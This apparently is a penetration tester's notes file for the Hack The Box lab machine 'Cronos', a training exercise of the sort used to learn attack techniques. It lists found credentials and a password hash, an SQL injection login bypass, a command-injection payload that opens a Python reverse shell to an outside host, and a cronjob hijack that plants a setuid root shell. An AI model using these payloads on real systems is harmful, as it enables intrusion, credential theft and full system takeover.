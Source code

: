#### ++ INFO ++
-> In enumeration we have all the process with sqlmap to find the sql injection vulnerability
#### ++ USERS ++
	admin (admin.cronos.htb login)
	noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash

#### ++ CREDENTIALS ++
	admin : kEjdbRigfBHUREiNSDs db:admin (Found in /var/www/admin/config.php)
	admin : 4f5fffa7b2340178a716e3832451e058 (Found in mysql, could be login creds for admin.cronos.htb)

#### ++ HOSTS (Check with Aquatone if numerous) ++
	`cronos.htb`
	`admin.cronos.htb`
	`ns1.cronos.htb`
	
#### ++ SQL Injection ++
	username parameter vulnerable to MySQL injection in admin.cronos.htb
		username: admin' or '1'='1
	
#### ++ RCE ++
	In admin.cronos.htb/welcome.php we have RCE by appending "&" after the host field value
		e.g.: 8.8.8.8&python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.86",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
#### ++ Priv Esc ++
	Root user is executing as cronjob /var/www/laravel/artisan and www-data is the owner of this folder, so we modify the script to get a shell
		echo '<?php system("cp /bin/sh /tmp/sh;chmod u+s /tmp/sh"); ?>' > /var/www/laravel/artisan
		/tmp/sh -p